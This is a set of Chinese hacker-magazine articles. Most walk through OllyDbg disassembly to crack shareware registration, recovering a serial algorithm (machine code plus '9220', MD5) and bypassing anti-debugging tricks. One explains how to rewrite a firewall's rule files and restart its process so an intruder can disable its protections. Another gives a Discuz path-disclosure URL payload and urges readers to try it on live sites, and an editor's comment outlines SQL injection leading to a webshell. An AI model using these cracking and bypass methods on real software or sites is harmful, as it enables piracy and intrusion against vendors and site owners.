这时使用我们最受用的调试器 OD 载入脱壳后的程序，来到下面代码关键处：


```text
008B1524    E8 4F8EBAFF     call unpacked.0045A378
008B1529    8B45 FC         mov eax,dword ptr ss:[ebp-4]
; 将假码保存到 eax
008B152C    50              push eax
008B152D    8D55 F8         lea edx,dword ptr ss:[ebp-8]
008B1530    8B83 F8020000   mov eax,dword ptr ds:[ebx+2F8]
008B1536    E8 3D8EBAFF     call unpacked.0045A378
008B153B    8B45 F8         mov eax,dword ptr ss:[ebp-8]
; 机器码保存到 eax
008B153E    5A              pop edx
008B153F    E8 90F7FFFF     call unpacked.008B0CD4
; 跟进关键 call
008B1544    84C0            test al,al
008B1546    74 42           je short unpacked.008B158A
; 这里相等就跳到注册失败处
008B1548    E8 FBF7FFFF     call unpacked.008B0D48

008B1577    A1 E0208E00     mov eax,dword ptr ds:[8E20E0]
008B157C    8B00            mov eax,dword ptr ds:[eax]
008B157E    BA 18168B00     mov edx,unpacked.008B1618
; ASCII "好学友之幼教管理系统 V2.2 Plus"
008B1583    E8 208EBAFF     call unpacked.0045A3A8
008B1588    EB 19           jmp short unpacked.008B15A3
008B158A    6A 30           push 30
008B158C    68 38168B00     push unpacked.008B1638
; ASCII "警告"
008B1591    68 40168B00     push unpacked.008B1640
; ASCII "对不起，您输入的注册码有误！"
008B1596    8BC3            mov eax,ebx
```

从上面的代码很容易看出 008B153F 就是关键 call，跟进去看看：

```text
008B0D04    8D55 F4         lea edx,dword ptr ss:[ebp-C]
008B0D07    8B45 FC         mov eax,dword ptr ss:[ebp-4]
008B0D0A    E8 9DFEFFFF     call unpacked.008B0BAC
; 算法 call
008B0D0F    8B45 F4         mov eax,dword ptr ss:[ebp-C]
; eax 保存真码
008B0D12    8B55 F8         mov edx,dword ptr ss:[ebp-8]
; edx 保存假码
008B0D15    E8 7E3FB5FF     call unpacked.00404C98
; 经典比较
008B0D1A    0F94C3          sete bl                 ; 判断是否正确
008B0D1D    33C0            xor eax,eax
008B0D1F    5A              pop edx
```

经过算法 call 008B0D0A 后，将真码保存在 eax，将假码保存在 edx。然后进行比较，为真的话，就注册成功。在 008B0D15 处很容易可以做出内存注册机，但这个不是本文的重点，所以略过了，有兴趣的朋友可以自行制作，现在进算法 call 看看：

```text
008B0BC8    68 1A0C8B00     push unpacked.008B0C1A
008B0BCD    64:FF30         push dword ptr fs:[eax]
008B0BD0    64:8920         mov dword ptr fs:[eax],esp
008B0BD3    8D45 F8         lea eax,dword ptr ss:[ebp-8]
008B0BD6    B9 300C8B00     mov ecx,unpacked.008B0C30
; ASCII "9220"
008B0BDB    8B55 FC         mov edx,dword ptr ss:[ebp-4]
008B0BDE    E8 BD3FB5FF     call unpacked.00404BA0
008B0BE3    8B45 F8         mov eax,dword ptr ss:[ebp-8]
008B0BE6    8BD3            mov edx,ebx
008B0BE8    E8 57C4FDFF     call unpacked.008BD044
; 跟进可以看 MD5 的详细运算
008B0BED    53              push ebx
```

这里在 008B0BD6 处可以看一个固定字符串“9220”，这个是关键东西，因为算法少了它，就不可能注册成功的。然后下面的一处 call 是将机器码和固定字符串“9220”连接起来的，再经过 008B0BE8 处的 call 进行标准的 MD5 运算后得到真的注册码。进去 008B0BE8 可以看到详细的 MD5 运算，而且还可以发现标准 MD5 的四个常数：

```text
0088C554      E8 C76BB7FF      call unpacked.00403120
; 下面四个为标准 MD5 的常数
0088C559      C703 01234567    mov dword ptr ds:[ebx],67452301
0088C55F      C743 04 89ABCDE> mov dword ptr ds:[ebx+4],EFCDAB89
EFCDAB89
0088C566      C743 08 FEDCBA9> mov dword ptr ds:[ebx+8],98BADCFE
98BADCFE
0088C56D      C743 0C 7654321> mov dword ptr ds:[ebx+C],10325476
10325476
0088C574      5B               pop ebx
0088C575      C3               retn
```

### 详细的 MD5 运算过程分为五步：

### 第一步：增加填充

增加 padding 使得数据长度（bit 为单位）模 512 为 448。如果数据长度正好是模 512 为 448，增加 512 个填充 bit，也就是说填充的个数为 1-512。第一个 bit 为 1，其余全部为 0。

### 第二步：补足长度

将数据长度转换为 64bit 的数值，如果长度超过 64bit 所能表示的数据长度的范围，只保留最后 64bit，增加到前面填充的数据后面，使得最后的数据为 512bit 的整数倍。也就是 32bit 的 16 倍的整数倍，32bit 为一个 word。

### 第三步：初始化变量

用到 4 个变量，分别为 A、B、C、D，均为 32bit 长。初始化为：

A=0x01234567 B=0x89abcdef C=0xfedcba98 D=0x76543210

### 第四步：数据处理

### 第五步：输出 128bit 的结果

有兴趣的朋友不妨进去亲身感受一下，这里就不多说了。到了这里，可以很明显地看到程序的注册验证过程：将机器码和固定字符串“9220”连接起来，然后再进行标准的 MD5 运算后取前面 20 位得到真的注册码。验证过程很简单，喜欢编程的朋友可以制作出算法注册机，这里我就不做了，因为我也不太懂，呵呵。如果你在学习过程中有问题的话，可以到《黑客手册》官方论坛发帖交流。最后来看看我们的胜利果实，如图 5 所示。


> **编辑点评**：程序中利用了非常强悍的算法，我们也不需要有太多的顾虑。其实比起作者自创的算法，仔细分析这些经典算法更有助于我们能力的提高。

## 失败的破解并非毫无用处

kflnig

- 从本文中你可以学到：
- 通过破解失败了解如何保护软件
- 智能型软件的自我保护
- 了解未来软件保护发展的方向

《失败的入侵并非毫无用处》，2006 年 12 月中阿花的这篇文章，题目取得真是太好了，我只好借来改用一下了，就叫《失败的破解并非毫无用处》。以下有两个软件我都没能够正确找出注册码，但是即使我收获不少，它们的大名分别是《autoplay menu builder》（以下简称为 AMB，不是 RMB ^_^）和《系统美化专家》，从这两款软件中我似乎看到了未来软件保护发展的方向——Anti 和逃避。

## Anti 篇：《autoplay menu builder》的威力

破解当然要找关键 call 了，我们需要一些工具，原版的 OD，这样才可以见识出它的 anti 的威力。首先进行软件主程序的查壳……原来没有啊？软件是 Delphi 编写的。既然是 Delphi 编写，首先想到的就是 DEDE！我这个 DEDE 是来自于《黑客手册》图书系列中的《精通破解工具》光盘哦！

先试过用 DEDE 来处理，居然有时候会出现如图 1 的情况，始终是被强行关闭，真是郁闷！

没有办法，只好老老实实用 OD 分析啦！

OD 原版载入软件执行主程序，先不要动，看入口点 0055B938 PUSH EBP，载入的是在末尾，不同寻常。


然后 F9（运行）一下，刚出来的 OD 没有了。哎！连我的 OD 都不放过！


思考：它是用什么方法来 anti 我的 OD 的？首先想到的是 IsDebuggerPresent 检测、FindWindowA 检测，很有可能，因为它们最常用，实现也比较简单！

搜索——>当前模块中的名称（Ctrl+N），看到有 FindWindowA、IsDebuggerPresent，这个基本上是肯定的，因为 IsDebuggerPresent 肯定是作为 anti 出现的，FindWindowA 可能有别的用处。那么怎么躲过这些 anti 呢？我们最好需要它！命令行插件，如图 2。

有了它，我们只要下断 FindWindowA 和 IsDebuggerPresent 就可以了。接着 F9 后等着断下来，当然我们也可以用 Ctrl+N 后下断 GetProcAddress（这是 IsDebuggerPresent 使用法的前奏，必须通过这个 API 函数才可以取得 IsDebuggerPresent 的地址。载入一个加过壳的软件，Ctrl+N 后见到的东西不多，但是肯定有 GetProcAddress）和 FindWindowA。

不过在这里要多废话几句，因为我在使用 OD 中发现一些情况：OD 并不是只有目录那个红通通的 olldbg，还有不少其他的东西。如果你的 olldbg 不是修改版，而是和我一样的只有一个 olldbg.exe 的原版，我简称为“半完全 OD”；如果你的是一个完全没有修改过的通通原版 OD 套装，我简称为“完全 OD”。图 3 是半完全 OD 的截图，图 4 是完全 OD 的截图，大家比较一下吧！

图 3 和图 4 完全不同，是吧？经过简单测试发现，两者对所遇到的花指令干扰处理方法不同，原来完全 OD 会受到花指令干扰的。在半完全 OD 载入的时候会进行默认分析，也就是 Ctrl+A（分析），而完全 OD 则是载入。如果你要使用完全 OD，那么分析（Ctrl+A）是不可少的。再来看看这两者的另一个反应，如图 5：


看到了吗？它无法知道那边调用了这个函数。而半完全 OD 或者分析过（载入后，按一下 Ctrl+A）的完全 OD 是可以看到的。突然想到，在脱壳一些软件时那个经典的对话框，就是问你是否要分析，大家据说点击“不要”，原来区别在这里。

- 1. 此刻我选择使用完全 OD，输入 Bp FindWindowA 下断，再输入 Bp IsDebuggerPresent 下断。假设你现在已经断好了，那么 F9（运行），此时断下来了（当然也有另外一种可能，OD 又会被关闭，也就是说它用的是另外的 anti 手段，或者说在此之前还有 anti 手段，那么没有办法，只好哪边 OD 被关，哪里 F7（单步步入）去了！当然，这个软件中没有发生这种情况。）
- 2. 此刻断在 kernel32 的领空中，一步步 F8（单步步过）出来或直接 Ctrl+F9（执行到返回）。

```text
5ADCB1B4  . FF15 CC10DC5A  call dword ptr ds:[5ADC10CC] ; kernel32.IsDebuggerPresent
5ADCB1BA  . 85C0           test eax,eax  <——出来断在这里，eax 不要为 1
5ADCB1BC  . 0F85 9D6E0100  jnz 5ADE205F ; 不要跳
```

看到了吗？典型的判断是否被调试。我们在 5ADCB1BA 时把 eax 的值改成 0，否则下一行，我们不仅要修改 eax 的值为 0，还要把 z 标志位改成 1。

- 3. 记住 5ADCB1BC，不要跳知道吗？F8 一直走，若走入系统区则 Alt+F9 出来！直到……

```text
00508672   E8 ADF7EFFF     call <jmp.&user32.FindWindowA>
00508677   8BF0            mov esi,eax
00508679   85F6            test esi,esi
0050867B   74 14           je short APMBuild.00508691
```

这些代码看着就引起我的怀疑，看此时的堆栈我就……还是图画来说话好了，如图 6：

- 4. 通过 FindWindowA 查找是否有类名叫 TdeDeMainForm（当然就是 DEDE 的类名了）的窗口存在，如果运行 DEDE 时被关，就到这里来修改 0050867B 的 je 成 jmp（当然，这个软件还有自校验，这个是后话，但对 DEDE 来说只要可以打开一次就可以处理了。）

```text
0050867D   BB 01040000     mov ebx,401
00508682   6A 00           push 0
00508684   6A 00           push 0
00508686   6A 10           push 10
00508688   56              push esi
00508689   E8 B6FAEFFF     call <jmp.&user32.SendMessageA>
0050868E   4B              dec ebx
0050868F   75 F1           jnz short APMBuild.00508682
```

看这段代码，有趣！因为 DEDE 点退出之后是如图 1 的对话框，所以这个就是不停地“流氓”你，发送 WM_CLOSE 消息（也就是让你不停地点 DEDE 的退出按钮），出现图 1 的对话框，让你关闭 DEDE，大有 nag 窗口的典范。所以，假如 DEDE 不能分析了，那我们就修改这里的 0050868F jnz 也可以，比如说改成 nop 或者 jz 就可以了。如果有毅力，那么你可以点 0x401 下取消，这里也就过去了。

### 5，咱们接着 F8 下去，来到这里。

```text
0050869F   E8 0CEDFFFF     call APMBuild.005073B0
005086A4   8B45 E4         mov eax,dword ptr ss:[ebp-1C]
005086A7   E8 24CCFFFF     call APMBuild.004052D0
005086AC   50              push eax
005086AD   E8 72F7EFFF     call <jmp.&user32.FindWindowA>
005086B2   8BF0            mov esi,eax
005086B4   85F6            test esi,esi
005086B6   74 14           je short APMBuild.005086CC ; 一定要跳
005086B8   BB 01040000     mov ebx,401
005086BD   6A 00           push 0
005086BF   6A 00           push 0
005086C1   6A 10           push 10
005086C3   56              push esi
005086C4   E8 7BFAEFFF     call <jmp.&user32.SendMessageA>
005086C9   4B              dec ebx
005086CA   75 F1           jnz short APMBuild.005086BD
```

当经过 0050869F 这个 call 之后，在代码窗口之下的小窗口（专业名词叫信息窗口）中出现了这些字，如图 7：

再看看下面的代码，注意力得集中了。不过好笑的是，005086B8 - 005086CA 的代码，和对付 DEDE 时的一样，可是 OD 是一下就可以被关闭的啊，要这些干什么用？

当然我们不能让它检测到我们的 OD，005086B6 的跳转一定要跳！我们把 005086B2 的 eax 值改成 0，或在跳转前把 z 标志位改成 1 就可以了。


软件作者真有这个耐力！我都累了……好了，咱们接着看下去！

### 6，下面有一大段 call 来 call 去不知在干什么的代码，不理会直到……如图 8 所示：

```text
005087C1   E8 EAEBFFFF     call APMBuild.005073B0
005087C6   8B45 E0         mov eax,dword ptr ss:[ebp-20]
<——出现图 8 所示情况
005087C9   E8 02CBEFFF     call APMBuild.004052D0
005087CE   50              push eax
|FileName
005087CF   E8 28EEEEFF     call <jmp.&kernel32.CreateFileA>
; \CreateFileA
```

这是用 CreateFileA 来检测的（这里的代码是一个循环内的，看来 CreateFileA 在 anti 中可以干不少事情！），此处除了 SoftICE 的检测对我们或许还有用，其余的都没了，那就略去不谈吧。

那么是否这个软件只有这么一点力道呢？当然不是，否则也太菜了一点儿了。以上对 OD 的检测只是挠痒痒，OD 通过 attach（附加）就可以绕过上面这些检测。那么 attach（附加）是否可以帮助 OD 高枕无忧呢？当然不是！

### 7，我们先关了 OD，然后打开 AMB，再重新打开 OD，选择“文件”——>“附加”，选择 AMB.exe。

AMB 的主程序在用户名和伪码处理前会有一个大大的 anti，只可惜那个 call 是上面我们分析的 call（我们上面分析的是一个大大的 anti call 之内的代码）的重新编译。

- 8. 附加之后在 ntdll 的领空内，我们 Alt+F9 出去，竟然要按两下！

- 9. 然后再 F9（运行）（附加之后直接按 F9 会退出，我也不知道为什么），你可以用 fixdbg 加上插件 IsDebuggerPresent 去细细调试。

如果 AMB 只有这么一些 anti，那么它还称不上 anti 到位！放下手头的原版 OD，叫出我的修改版 fixdbg，加上插件 IsDebuggerPresent，此刻才是真正的反静态汇编——花指令。

Delphi 的程序下断 GetDlgItemTextA 等基本上只会误导你，根本没用，所以我选择了下断 MessageBoxA（当然下万能断点也可以）。但此刻 MessageBoxA 更有做文章的价值。

- 10. 输入用户名和序列号，点击确定，当然断下来了。在这里

```assembly
0049706A |. E8 3510F7FF      CALL <JMP.&user32.MessageBoxA> ; MessageBoxA
```

想想这个 MessageBoxA 的功能，虽然不一定有用，但是也是一种 cracker 应有的一种能力吧。也许你会问，不过是一个提示错误的消息框嘛！有什么用处？

我首先想到，会不会因为传入参数的不同，它所显示的消息会不同呢？我运用了很简单的两招：

- 11. 首先，在那里下断，然后把目标软件目录下的 APMUtils.dll（这不是个有效的 .dll 文件，PEiD 显示出的，我用 UE 看了一下，果然不是 PE 格式）移走。

- 12. 重新启动该软件，果然不出我所料，一个对话框出现了，就是个公用的 MessageBoxA 函数。再想一下，会不会在注册后或稍后的那一刻，通过查找字符串可以得到一些有用的思路？你加密总有解密的时候，我猜也许它会在注册的时候解密一些东西。

- 13. 断下了 MessageBoxA，然后 F8（注意是 F8，而不是 F9！虽然说有些人不明白。F8 是在下一条指令后插入 int 3 指令，而 F9 是直接运行。）。居然提示序列号错误！别管它，确定，然后又回到了 OD。如果是 F9 的话，那么根本不可能。

断下后，某些人（包括我）都想回到应用程序的最上层，所以就不停地 Ctrl+F9，如若进入了系统的领空，就 Alt+F9，直到 OD 不动了为止。

- 14. 最后再来一下 F8，终于来到了最上层，如图 9。


相信这时候某些读者会在 0493791 处下断点，起初我也是这么想的，但试一下发现绝对不可以！因为 AMB 不可能跳出来，这是一个巨大的 call，我们不可以在此下断点。思路再回到 MessageBoxA 处，怎么办？

思考：MessageBoxA，所以我们只好上一层一层地看，在 F8 进行过程中发现其实好多都是在进行善后处理，直到……

```assembly
/*53BCE1*/ CALL APMBuild.0053BBCC
/*53BCE6*/ MOV EAX,DWORD PTR DS:[EBX+300] ; 出来之后在这里，发现刚才走过的一切只不过是上面那个 call 的尾声。也就是说在这个之前有好东西。我们翻上去看。截取一段代码，表示有宝，加了一点注释希望你可以看懂。
```

```assembly
/*53BC5C*/ CALL APMBuild.00475EFC ; 取用户名
/*53BC61*/ CMP DWORD PTR SS:[EBP-4],0 ; 和 0 比较是否相等
/*53BC65*/ JE SHORT APMBuild.0053BC77 ; 相等就提示“请输入完整的注册信息”
```

……为了节省篇幅，上面是用户名，下面当然是伪码了。

```assembly
/*53BCA1*/ CALL APMBuild.00508A0C ; 一个在注册前的巨大的反调试 call
/*53BCA6*/ PUSH ECX
/*53BCA7*/ XOR ECX,ECX
/*53BCA9*/ JCXZ SHORT APMBuild.0053BCAD
/*53BCAC*/ DB E9 ; 怎么突然出现了这种东西，是花指令吗？果然用 W32ADSM 一载入到这里对比一下就知道了，果然是，可恶，竟敢欺骗我的 W32ADSM。以 OD 为准。
```

对比 W32ADSM 的反汇编代码：

```assembly
0053BCA9: 67E301          jcxz 0053BCAD ; 相同
0053BCAC: E9598D55F0      jmp F0A94A0A ; 不同得离谱
/*53BCAD*/ POP ECX
```

```assembly
......
/*53BCCD*/ POP EDX
/*53BCCE*/ CALL APMBuild.005083C8 ; 关键 call，这里花指令多了，多得不得了
/*53BCD3*/ TEST AL,AL ; 若 al 不为 0，注册成功
/*53BCD5*/ JNZ SHORT APMBuild.0053BCFE ; 看似一定要跳
/*53BCD7*/ JLE SHORT APMBuild.0053BCE1
/*53BCD9*/ JG SHORT APMBuild.0053BCE1
/*53BCDB*/ DB E8 ; 怎么又是你。花指令，无疑了。
/*53BCDC*/ XOR EAX,8848
```

这下 anti 就有点全了，集这么多 anti 功能于一身的，我还是第一次看到。

## 逃避篇：我惹不起，我还躲不起？

Anti 是猛士型的，躲避是智慧型的，《系统美化专家》这款软件就是高智商！

这是一个我本以为很简单的软件破解，可是我失败了……原因何在？我把它忽略了！


你需要的工具软件：OD、IDA 5.0（其实这个要与不要无所谓，有人已经把我们需要利用的功能集成给 OD 了，就是插件 ollyflow。）

- 1. 《系统美化专家》带着 aspack 壳，先手动或自动脱掉，检查出是 Delphi 编写，直接 OD 载入，F9（运行）。然后输入用户名和伪码，如图 10 所示：

- 2. 用 apibreak 下万能断点，断下后清除万能断点。Alt+F9 出来，然后一直 F8 直到……

```assembly
/*5BDEF7*/ CALL xp2003_e.00446CA8
/*5BDEFC*/ MOV EAX,DWORD PTR SS:[EBP-8] ; 出来在这里
```

看信息窗口，知道上面那个 call 是在取用户名。为了保险起见，在这个 call 上下一个断点，防止待会儿跑飞后又要重新下万能断点。往下走！

```assembly
/*5BDF44*/ MOV EAX,EBX
/*5BDF46*/ CALL xp2003_e.005BE214
/*5BDF4B*/ TEST AL,AL
/*5BDF4D*/ JE SHORT xp2003_e.005BDF58
```

这里怎么看都像是在处理注册事宜！我们进去……

前面我看都是在处理用户名，我没有去管，但到了这里之后我就觉得有麻烦了。Delphi 程序往往用寄存器来传值，而不像 VC 多用堆栈来传值。EBX 是用户名处理后的产物，所以我觉得 5BE2BF 的这个 call 肯定是伪码处理，出来后一比较，就什么都结束了。

```assembly
/*5BE2BC*/ MOV EAX,DWORD PTR SS:[EBP-18]
/*5BE2BF*/ CALL xp2003_e.00409630
/*5BE2C4*/ MOV ESI,EBX
/*5BE2C6*/ XOR ESI,0C47324
/*5BE2CC*/ CMP EAX,ESI
/*5BE2CE*/ JNZ SHORT xp2003_e.005BE2E9
```

## 3. 让我们进入 5BE2BF

里面有两个 call，第一个 call 后的跳转可以跳过第二个，于是乎我先进入了这里的一个 call。

```assembly
0040963B |. E8 EC9CFFFF   CALL xp2003_e.0040332C
00409646 |. 74 19         JE SHORT xp2003_e.00409661
0040965C |. E8 97F9FFFF   CALL xp2003_e.00408FF8
```

这里先介绍一点有用的小技巧：

进去 0040332C 之后发现到处都是跳转和比较，如果单是 OD 直接分析，终会死掉的。那么，我们可以利用 ollyflow 图表生成函数流程图（这个插件好像要把 wingraph32.exe 放到 C 盘目录下），但是可能这个插件比较老，没有 IDA 5.0 的好用，将就着也可以。

我把里面的两条路线稍微分析，提取了一下代码贴出来，不知道大家能不能看懂！如果看得懂，说明你的汇编基础还可以。

```assembly
CODE:0040337E  sub   bl, 30h
CODE:00403381  cmp   bl, 9
CODE:00403384  ja    short loc_4033AB ; 不能跳，但也说明伪码一定要数字才可以
CODE:00403386  cmp   eax, edi
CODE:00403388  ja    short loc_4033AB ; 一般不会跳
CODE:0040338A  lea   eax, [eax+eax*4] ; 这是一条超级加法，eax 乘 5
CODE:0040338D  add   eax, eax         ; eax 再乘 2；加上下面一条语句相当于 eax 乘 10
CODE:0040338F  add   eax, ebx         ; ebx 只有 bl 有值，其余都是 0
CODE:00403391  mov   bl, [esi]        ; esi 是伪码的地址
CODE:00403393  inc   esi
CODE:00403394  test  bl, bl
CODE:00403396  jnz   short loc_40337E
```

我来揭晓答案吧，这是把输入的伪码转成 16 进制。用数学式子来描述就是：((x1×10+x2)×10)+x3……由于寄存器这边都是 16 进制的，毫无疑问，这边就是 octtohex（十进制转十六进制）的转换了。

再看一段！首先声明：凡是跳到这个循环外面就死掉！

```assembly
/*4033C3*/ CMP BL,61
/*4033C6*/ JB SHORT xp2003_e.004033CB
/*4033C8*/ SUB BL,20
/*4033CB*/ SUB BL,30
/*4033CE*/ CMP BL,9
/*4033D1*/ JBE SHORT xp2003_e.004033DE
/*4033D3*/ SUB BL,11
/*4033D6*/ CMP BL,5
/*4033D9*/ JA SHORT xp2003_e.004033AB
/*4033DB*/ ADD BL,0A
/*4033DE*/ CMP EAX,EDI ; 一般不会大于
/*4033E0*/ JA SHORT xp2003_e.004033AB
/*4033E2*/ SHL EAX,4 ; 相当于 eax = eax * 16，我们也就是看到 eax 的值好像全体向左移了，末尾多出一个 0 一样。
/*4033E5*/ ADD EAX,EBX
/*4033E7*/ MOV BL,BYTE PTR DS:[ESI] ; esi 是伪码的地址
/*4033E9*/ INC ESI
/*4033EA*/ TEST BL,BL
/*4033EC*/ JNZ SHORT xp2003_e.004033C3
```

答案：其实它什么都没有干，只是把伪码从内存中移到了寄存器 eax 中。

在这里我本以为用两种方法得出了《系统美化专家》的序列号生成方法，于是乎我兴冲冲地输入用户名 kflnig 和序列号 $064D2B44，这时看到了久违的注册成功提示！如图 11。

可是这只是它欺骗你而已，根本没有任何作用。虽然提示有注册成功！我被忽悠了……


## 后记

本人觉得上述两种方法是软件外在保护的趋势，有效度可以和加壳并举，学好了这些方法可以为你以后的学习铲平道路！大家多多努力吧！

> 编辑点评：感谢作者通过耐心和毅力给大家阐述了自己破解软件时的经历，虽然是个不成功的破解，但破解过程中所迸发的思路和操作方法也值得记录。这种方法无法应用于这款软件上，但并不代表就永远没有用武之地！

星陨碎石首语：软件批评的前身是刚刚建立不久的栏目“试验报告”，之所以改名是由于现在的这个名字要更平实直接一些，更容易引起大家的注意。的确现在的软件安全形势还是相当严峻的。我们很高兴地看到越来越多的安全产品免费提供下载，界面友好、操作简单、功能强大，但我们是不是应该逆向思维勇敢地问一句，安全产品本身是否安全呢？
……

## 防火墙不防火

smallrascal [S.C.T]&[A.V.T]

**从本文中你可以学到：**
通过修改数据文件来改变风云防火墙规则的方法

近段时间，小弟为了机器上网不受攻击，所以到处在找好的防火墙，然而有一天在 QQ 群中听某人说到国内有款防火墙不错，遂立刻来到其官方网站，图 1 就是官方网站对该防火墙的功能特性简介。

看来还不错，我要的功能都有了，立刻下载试用。可是在试用的过程中发现了各种各样的安全隐患，所以写下，希望大家在看完之后能有所防范。


## 一、配置文件

安装好软件、重启完成之后就可以正常使用此防火墙了。找到其安装目录，打开目录下的“Operate.ini”文件，如图 2 所示。

这是防火墙默认的配置文件，其中各项对应着防火墙系统设置中的各功能。“0”表示取消或停用功能，而“1”则是使用。现在我们来看看上图中的各项内容。可以先正常退出防火墙，然后试着修改一个功能的值改为“0”，再打开防火墙到系统设置中，这样就可以看到修改的值所对应的功能前面的勾被取消了。同时在最下方的一行 UserID 指的就是授权序列号，如果已经注册成正式版本，那么这里的值就是正式版的序列号。

为什么要先退出防火墙，然后再进入呢？因为在防火墙运行时已经将各个值读入到内存中了，修改后的值要到下次启动后才能读到，而且如果是在退出防火墙之前修改并保存，那么会被退出防火墙时的保存代码所替换掉，修改的内容就被还原了。

## 二、规则文件

下面再看一下系统设置中的“注入线程排除程序”，如图 3 所示。

也就是说上图的两个程序是允许被注入线程的，那么我们只要在其中添加程序就完全突破了防线程注入功能。哦，忘了说了，其对应的文件名是“DllInject.dat”。


接着来看看“应用程序规则”，其对应的文件名是“ProcessRules.dat”，如图 4 所示。


上图中第一个程序是“IEXPLORE.EXE”，在偏移 5 处指明的是“不符合规则时”的工作方式，“0D”是询问用户，“0E”则是拦截操作。端口号是以两个字节的 16 进制值表示的，但具体的端口号不是直接写入对应的 16 进制值，而是经过了特定的运算后才写入的。如 TCP 中的“443”端口，若按 16 进制直接写入应该为“BB 01”（低位在前，高位在后），但在上图中却为“B3 09”，多试验几个就能找出这个特定运算的规律：“BB”到“B3”为减去“08”，“01”到“09”则是加上“08”，换句话说就是低位减“08”，高位加“08”，简单吧。TCP 及 UDP 监听中“0A”表示允许监听，“0C”则相反。

再来看看“IP 端口过滤规则”，对应的文件名是“IpPortRules.dat”，如图 5 所示。

在偏移 5 处指明的是是否使用该规则，“09”为使用，将其修改为“08”，则可使该规则无效，IP 端口规则限制也是如此不堪一击。

最后来看看“防范规则”，对应的文件名是“LocalProcRules.dat”，如图 6 所示。

在注入线程、加载运行和终止其它进程中，“08”为询问，“0A”为允许，“0C”为禁止，只要将对应的规则项的各值修改为对应的值，那么所谓的防范规则也就形同虚设了。

## 三、突破保护

但是若修改之前没有关闭防火墙，修改后又没有打开，那么这些修改就丝毫无意义，不是吗？然而在图 1 中的最后一项功能明确说明，只要非法终止，那么网络就会被断开，入侵者就没有办法继续操作下去了，这又该如何突破呢？其实很简单，首先获取防火墙的进程 ID 号和完整路径，再将各个文件修改并保存，然后写一个批处理，在其中加入 PS 等命令行进程管理程序将防火墙进程非法关闭，关闭后再打开，最后执行这个批处理。执行后会被对方机器断开连接，但稍等片刻就可以连接上去了，因为防火墙已经又被执行了。这里有几个疑问需要解释一下：

- 1、上面说的要先退出防火墙，然后再修改文件，而这里却是先修改，再退出？原因是这里利用 PS 等管理软件将防火墙非法关闭而不是正常关闭，也就是说没有让防火墙在退出时执行保存代码，所以根本不用担心修改的文件会被覆盖。

- 2、防火墙被非法关闭，网络被断开，事后又如何能连接？因为这里的断开不是真正意义上的断开，而是被防火墙的底层驱动给拦截了，所以只要再次执行防火墙就可以将这个断开事件关闭。


## 四、写在最后

好了，到这里已经将所有安全隐患都曝光了。不多说了，最后留下我的 Blog: http://www.smallrascal.cn，欢迎各位常来坐坐喝喝茶。

> [文章中涉及到的风云防火墙个人预览版在光盘中有收录]

**编辑点评：**这款防火墙给小编的第一印象还是不错的，昨晚刚刚有人向我推荐过。安装过程很简单并且快速，运行起来也十分流畅，功能也算强大了。而看过这篇文章后我不禁在思索国内还有多少程序是这样的：表面上做得都是不错的，但是深入研究进去往往会发现自身的安全不堪一击。国内现在好多程序员的思想好像还和几年前一样，只把注意力放在了使用性能上，而对安全还是那样漠视。今天安全在各个行业都被提到了议程上，如果我们一直这样做下去的话，我们的产品是不能在市场生存的。希望更多朋友来关注国产软件的安全，帮助软件厂商完善他们的程序。:HACK

## 看菜鸟如何研究 DZ 论坛暴物理路径漏洞

迎风听海 [S.H.C]

**通过本文你可以学到：**
- 如何修改相关参数防止 DZ 论坛错误显示

DZ 论坛，在国内有相当大的客户支持，其稳定性、安全性与速度都是一流的。最近在某牛人的 Blog 上看到一篇关于 DZ 论坛暴物理路径漏洞的文章，便去联系他。结果由于种种原因，没能联系上，自然也就没能知道漏洞的具体原理。心有不甘，于是发扬黑客钉子精神，自己钻研吧。

喜欢逛论坛的朋友们都应该知道，有许多的黑客站点都在用 DZ 论坛，打开两个相当出名的站，分别是“岁月联盟”和“黑客基地”，我们测试一下，如图 1、图 2：


首先我们来看看牛人原文的摘抄：“只要输入：&extra=%5B%5D=page%3D1#pid1453 就会出错，并显示出网站物理地址！”可以看到，都存在这个漏洞，下面给出两种解决方法。

- 1. **打开论坛相关目录里的 config.inc.php 文件**，将其中的 `$errorreport = 1` 的参数改成 0，然后打开服务器里面的 `php.ini`，把里边的 `display_errors = On` 参数改成 `Off` 就行了。
- 2. **还有另外一种方法可以解决此问题**。打开论坛 `include` 目录下的 `common.inc.php`，把 `$extra = isset($extra) && preg_match` 改成 `$extra = isset($extra) && @preg_match`，然后重新上传并覆盖原文就可以了。

虽然修改两个小的地方就可以解决问题，但我们还是继续研究一下错误是如何产生的。在第 1 种方法中，`$errorreport` 的不同参数起着怎样的作用呢？原来，`$errorreport` 是用来设置是否报告 PHP 错误的，0=只报告给管理员和版主（更安全），不报告钩子错误；1=报告给任何人并报告钩子错误。


图 2

为什么只要输入：`&extra%5B%5D=page%3D1#pid1453` 就会出错？结合上边的研究，我们知道：如果没有把上边的错误报告关闭的话，我们普通用户就会有机会看到报错了，出错路径是文件 `include\common.inc.php`。

接下来我们看第 2 种解决方法，在相关语句中加一个 `@` 的意思就是：`@` 后边的表达式所产生的错误信息都将会被忽略掉！这样当然是任何人都不能够再看到错误信息了。

其实以上方法无非就是禁止错误显示，不通过访问页面给浏览者一丝一毫的信息，从前台做到敏感信息屏蔽！看到 `&extra%5B%5D=page%3D1#pid1453` 就让人想起了 `%5c`，如果有大大们能够继续深入研究下去，希望可以到《黑手》论坛和我交流，我想真正的漏洞原理就在于 `preg_match` 这个表达式和上边的 `&extra%5B%5D=page%3D1#pid1453` 了吧？本文投稿当日仍然有许多的 DZ 论坛可以暴出物理路径，大家运气好的话可以搜索一些来试一试！

> **编辑点评：** 本文没有什么技术可言，而这个漏洞也好像很鸡肋，在此提供大家一个找漏洞的方法，条件有三：1>旁注有其他站；2>其他站有注入漏洞；3>注入漏洞要是 MSSQL 数据库。如果满足这三个条件，那么恭喜你，剩下的就是差异备份了。至于如何差异备份，大家可以参考以前的《黑手》！另外，在研究漏洞利用时，pid 值一定要一样，否则无效果哦。


## 主持人：徐师傅

**Q：这几天网速比较慢，在网上找了一下，说是有关的加速器软件，搜索到了一个叫“黑鹰加速器”的软件，不过安装不了。结果一查，原来是机器不允许建立新的连接，请问我该怎么办？**

**A：** 不允许建立新的连接，应该是关闭了相应的服务导致的，打开自己电脑所关闭的服务就可以解决。用鼠标右键单击“我的电脑”，选择“管理”，然后进入“服务和应用程序”下的“服务”，开启“Remote Access Connection Manager”这个服务就可以了。如提示无法启动，那么就是关闭了它的“关联服务”。先开启“Telephony”这个服务，然后再开启“Remote Access Connection Manager”就搞定了。

